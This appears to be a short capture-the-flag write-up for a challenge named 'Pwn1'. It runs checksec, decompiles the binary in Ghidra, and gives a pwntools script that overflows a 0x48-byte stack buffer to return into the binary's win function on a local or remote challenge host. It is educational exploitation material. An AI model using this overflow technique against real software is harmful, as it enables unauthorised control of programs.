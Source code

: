 ## Pwn1

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.

![ghidra1](./screenshots/ghidra1.png)

![ghidra2](./screenshots/ghidra2.png)

Just a very simple buffer overflow and we even have a win function to jump to.  The stack is 0x48 bytes before the return address.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn1")

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 35932)
elif args.GDB:
    p = gdb.debug(binary.path)
else:
    p = process(binary.path)

payload = b""
payload += b"A" * 0x48

payload += p64(binary.symbols['win'])

p.sendline(payload)

p.interactive()
```

![exploit](./screenshots/exploit.png)

Success!